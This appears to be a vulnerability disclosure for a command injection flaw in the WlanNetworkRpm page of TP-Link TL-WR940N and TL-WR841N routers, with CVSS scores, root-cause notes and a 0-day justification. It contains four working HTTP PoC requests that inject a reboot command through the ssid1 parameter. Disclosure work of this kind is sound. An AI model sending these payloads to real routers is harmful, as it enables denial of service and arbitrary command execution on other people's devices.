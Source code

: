 # TP-Link TL-WR940N/TL-WR841N Wireless Router /userRpm/WlanNetworkRpm Command Injection Vulnerability

## 1 Basic Information

- Vulnerability Type: Command Injection
- Vulnerability Description: In TP-Link TL-WR940N V2/V4 and TL-WR841N V8/V10 wireless router,there is a command injection vulnerability. Its /userRpm/WlanNetworkRpm component implements a security vulnerability in processing the ssid1 GET parameter, allowing remote attackers to use the vulnerability to submit special requests, resulting in command injection, which can lead to the execution of arbitrary system commands.
- Device model:
  - TP-Link TL-WR940N V2/V4、TP-Link TL-WR841N V8/V10

## 2. Vulnerability Value

- Maturity of Public Information: None
- Order of Public Vulnerability Analysis Report: None
- Stable reproducibility: yes
- Vulnerability Score (refer to CVSS)
  - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
  - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)
- Exploit Conditions
  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory
- Exploit Effect
  - Denial of Service
  - Remote Code Execution (RCE)

## 3. PoC

The PoC of TL-WR940NV4 is as follows:

```http
GET /JFYRUKOAPAQZRKOC/userRpm/WlanNetworkRpm.htm?ssid1=TP-LINK_000012||reboot;&ssid2=TP-LINK_0000_2&ssid3=TP-LINK_0000_3&ssid4=TP-LINK_0000_4&region=101&band=0&mode=6&chanWidth=2&channel=15&rate=83&ap=1&broadcast=2&brlssid=&brlbssid=&addrType=1&keytype=1&wepindex=1&authtype=1&keytext=&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/JFYRUKOAPAQZRKOC/userRpm/WlanNetworkRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TL-WR940NV2 is as follows:

```http
GET /UJOGPJXBZUFEBUDB/userRpm/WlanNetworkRpm.htm?ssid1=;reboot;&ssid2=TP-LINK_0000_2&ssid3=TP-LINK_0000_3&ssid4=TP-LINK_0000_4&region=101&band=0&mode=5&chanWidth=1&channel=9&rate=59&ap=1&broadcast=2&brlssid=&brlbssid=&addrType=1&keytype=1&wepindex=1&authtype=1&keytext=&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/KMODQNKANSQJBYFA/userRpm/WlanNetworkRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TL-WR841N V8 is as follows:

```http
GET /userRpm/WlanNetworkRpm.htm?ssid1=a;reboot&ssid2=TP-LINK_000000_2&ssid3=TP-LINK_000000_3&ssid4=TP-LINK_000000_4&region=101&band=0&mode=3&chanWidth=2&channel=15&rate=71&ap=1&broadcast=2&brlssid=&brlbssid=&addrType=1&keytype=1&wepindex=1&authtype=1&keytext=&Save=Save HTTP/1.1
Host: 0.0.0.0:49168
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://0.0.0.0:49168/userRpm/WlanNetworkRpm.htm
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```

The PoC of TL-WR841N V10 is as follows:

```http
GET /GWIDNCGBKQNKXJXB/userRpm/WlanNetworkRpm.htm?ssid1=a;reboot;&ssid2=TP-LINK_0000_2&ssid3=TP-LINK_0000_3&ssid4=TP-LINK_0000_4&region=101&band=0&mode=5&chanWidth=2&channel=15&rate=71&ap=1&broadcast=2&brlssid=&brlbssid=&addrType=1&keytype=1&wepindex=1&authtype=1&keytext=&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/GWIDNCGBKQNKXJXB/userRpm/WlanNetworkRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

## 4. Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/WlanNetworkRpm component implements a security vulnerability in processing the ssid GET parameter,and the ssid1 parameter key was put into the stack without being checked, resulting in a denial of service. Attackers take advantage of this vulnerability to concatenate ssid1 parameters to execute commands, resulting in a command injection vulnerability, which can lead to the execution of arbitrary system commands.

The firmware simulation process and interface are as follows:

![](./imgs/fat.png)

![](./imgs/before.png)

![](./imgs/web.png)

After sending the PoC, the target service did not verify the input, executed the service reboot command then crashed, and tried to restart the system, resulting in a denial of service.

![](./imgs/after.png)

![](./imgs/after2.png)

## 5. The basis for judging as a 0-day vulnerability

Search the WlanNetworkRpm keyword in the NVD database, and found no vulnerabilities; search the parameter ssid1 keyword in the NVD database, and found three vulnerabilities, namely CVE-2021-46319, CVE-2021-46315, CVE-2020-27600.These vulnerabilities have different interfaces.The interfaces are: SetMasterWLanSettings interface under HNAP1, www/hnap1/control/setwizardconfig, HNAP1/control/SetMasterWLanSettings, so they are not same as this vulnerability.